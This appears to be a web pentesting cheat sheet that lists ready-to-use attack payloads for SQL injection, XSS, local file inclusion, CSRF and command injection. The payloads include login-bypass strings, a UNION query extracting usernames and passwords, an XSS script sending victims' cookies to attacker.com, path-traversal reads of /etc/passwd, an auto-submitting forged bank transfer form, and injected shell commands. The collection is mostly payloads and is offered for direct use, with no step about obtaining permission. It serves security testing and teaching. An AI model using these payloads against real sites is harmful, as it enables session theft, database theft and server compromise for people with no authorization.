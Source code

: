 # The Pentester's Core Vulnerability Cheat Sheet
*No fluff, just the stuff you'll actually use.*

## 1. SQL Injection (SQLi)
**Goal:** Bypass login, steal data from the database.

### Quick Detection:
Try these in any input field (login, search, product ID):
```sql
'
"
`
')
")
`)
'))
"))
`))
```
*If you get a database error, it's vulnerable.*

### Simple Exploits:
**Bypass Login:**
```sql
' OR '1'='1
' OR 1=1-- -
admin'-- -
```
*Use in username/password fields.*

**Get Database Info:**
```sql
' UNION SELECT username, password FROM users-- -
```
*Works if you know the table/column names.*

**Tool for Automation:**
```bash
sqlmap -u "http://site.com/page?id=1" --batch
```

---

## 2. Cross-Site Scripting (XSS)
**Goal:** Execute malicious JavaScript in a victim's browser.

### Quick Detection:
Try these in search bars, comment fields, contact forms:
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```
*If a pop-up appears, it's vulnerable.*

### Simple Exploits:
**Steal Cookies:**
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```
*Sends the user's session cookie to you.*

**Tool for Automation:**
```bash
# Use Burp Suite's Scanner or a simple script.
```

---

## 3. Local File Inclusion (LFI)
**Goal:** Read sensitive files on the server.

### Quick Detection:
Look for URL parameters like `?file=about.php` or `?page=index`. Try:
```bash
../../../../etc/passwd
....//....//....//etc/passwd
```
*If the server's password file shows up, it's vulnerable.*

### Simple Exploits:
**Read Important Files:**
```bash
# Linux
../../../../etc/passwd
../../../../etc/hosts

# Windows
..\..\..\..\windows\system32\drivers\etc\hosts
```

---

## 4. Cross-Site Request Forgery (CSRF)
**Goal:** Trick a logged-in user into performing an action without their knowledge.

### The Concept:
If a user is logged into `bank.com`, you can make their browser send a request to `bank.com/transfer?amount=1000&to=attacker` from your evil site.

### Simple Exploit:
**Create a hidden form on your evil site:**
```html
<form action="http://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
</form>
<script>document.forms[0].submit();</script>
```

---

## 5. Command Injection
**Goal:** Run operating system commands on the server.

### Quick Detection:
Look for inputs that might interact with the system (ping, traceroute, file upload). Try:
```bash
; whoami
| whoami
`whoami`
$(whoami)
```
*If the server's username appears, it's vulnerable.*

### Simple Exploits:
**Basic Recon:**
```bash
; whoami          # Current user
; pwd             # Current directory
; ls -la          # List files
; cat /etc/passwd # Read file
```

---

## The Simple Methodology

1.  **Find Inputs:** Look for any field or URL parameter where you can type stuff.
    *   Login forms
    *   Search bars
    *   URL parameters (`?id=1`, `?file=cat.jpg`)
    *   Contact forms
    *   HTTP Headers (like `User-Agent` or `X-Forwarded-For`)

2.  **Probe:** For each input, throw the basic payloads from above at it.
    *   `'`
    *   `<script>alert(1)</script>`
    *   `../../etc/passwd`
    *   `; whoami`

3.  **Observe:** Watch for:
    *   **Errors** (especially database errors)
    *   **Unexpected Output** (a password file, a username)
    *   **Behavior Changes** (you get logged in, a command runs)

4.  **Exploit:** If something works, use the simple exploits above to prove it.

### The One Command to Rule Them All

When you find a potential vulnerability, let **Burp Suite** or **OWASP ZAP** do the heavy lifting. Just right-click and "Actively Scan".

---

**Remember:** This is a starting point. 90% of findings will come from testing these basic vulnerabilities. Master these first